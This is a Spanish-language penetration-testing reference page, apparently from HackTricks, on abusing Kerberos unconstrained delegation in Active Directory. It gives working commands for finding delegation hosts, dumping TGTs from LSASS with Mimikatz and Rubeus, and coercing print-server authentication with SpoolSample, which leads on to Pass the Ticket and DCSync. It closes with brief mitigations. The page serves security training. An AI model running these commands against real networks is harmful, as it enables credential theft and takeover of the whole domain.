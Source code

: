 # Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

Esta es una característica que un Administrador de Dominio puede establecer en cualquier **Computadora** dentro del dominio. Luego, cada vez que un **usuario inicia sesión** en la Computadora, una **copia del TGT** de ese usuario será **enviada dentro del TGS** proporcionado por el DC **y guardada en memoria en LSASS**. Así que, si tienes privilegios de Administrador en la máquina, podrás **extraer los tickets e impersonar a los usuarios** en cualquier máquina.

Entonces, si un administrador de dominio inicia sesión en una Computadora con la característica de "Unconstrained Delegation" activada, y tú tienes privilegios de administrador local en esa máquina, podrás extraer el ticket e impersonar al Administrador de Dominio en cualquier lugar (domain privesc).

Puedes **encontrar objetos de Computadora con este atributo** verificando si el atributo [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) contiene [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>). Puedes hacer esto con un filtro LDAP de ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, que es lo que hace powerview:
```bash
# List unconstrained computers
## Powerview
## A DCs always appear and might be useful to attack a DC from another compromised DC from a different domain (coercing the other DC to authenticate to it)
Get-DomainComputer –Unconstrained –Properties name
Get-DomainUser -LdapFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'

## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

# Export tickets with Mimikatz
## Access LSASS memory
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
## Doens't access LSASS memory directly, but uses Windows APIs
Rubeus.exe dump
Rubeus.exe monitor /interval:10 [/filteruser:<username>] #Check every 10s for new TGTs
```
Cargue el ticket del Administrador (o usuario víctima) en memoria con **Mimikatz** o **Rubeus para un** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Más información: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Más información sobre la delegación no restringida en ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Forzar Autenticación**

Si un atacante puede **comprometer una computadora permitida para "Delegación No Restringida"**, podría **engañar** a un **servidor de impresión** para que **inicie sesión automáticamente** contra él **guardando un TGT** en la memoria del servidor.\
Luego, el atacante podría realizar un **ataque Pass the Ticket para suplantar** la cuenta de computadora del usuario del servidor de impresión.

Para hacer que un servidor de impresión inicie sesión contra cualquier máquina, puede usar [**SpoolSample**](https://github.com/leechristensen/SpoolSample):
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Si el TGT proviene de un controlador de dominio, podrías realizar un [**ataque DCSync**](acl-persistence-abuse/index.html#dcsync) y obtener todos los hashes del DC.\
[**Más información sobre este ataque en ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

Encuentra aquí otras formas de **forzar una autenticación:**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Mitigación

- Limitar los inicios de sesión de DA/Admin a servicios específicos
- Establecer "La cuenta es sensible y no se puede delegar" para cuentas privilegiadas.

{{#include ../../banners/hacktricks-training.md}}
